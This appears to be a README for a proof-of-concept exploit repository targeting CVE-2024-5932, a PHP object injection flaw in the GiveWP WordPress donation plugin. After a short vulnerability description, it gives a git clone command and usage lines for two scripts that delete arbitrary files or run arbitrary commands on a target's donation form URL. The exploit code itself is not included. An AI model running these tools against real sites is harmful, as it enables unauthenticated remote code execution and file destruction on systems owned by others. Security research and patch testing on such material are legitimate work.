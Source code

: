 # Description

CVE-2024-5932 : GiveWP PHP Object Injection vulnerability description: The GiveWP Donation Plugin and Fundraising Platform plugin for WordPress is vulnerable to PHP Object Injection in all versions up to, and including, 3.14.1 via deserialization of untrusted input from the 'give_title' parameter. This makes it possible for unauthenticated attackers to inject a PHP Object. The additional presence of a POP chain allows attackers to execute code remotely, and to delete arbitrary files.

# How to use

git clone https://github.com/c-malitia/GiveWP-POC.git

# Command

# Arbitrary file deletion
python CVE-2024-5932.py -u <URL_TO_EXPLOIT(Donation Form URL)> -f <FILE_TO_DELETE>
# Remote code execution
python CVE-2024-5932-rce.py -u <URL_TO_EXPLOIT(Donation Form URL)> -c <COMMAND_TO_EXECUTE>

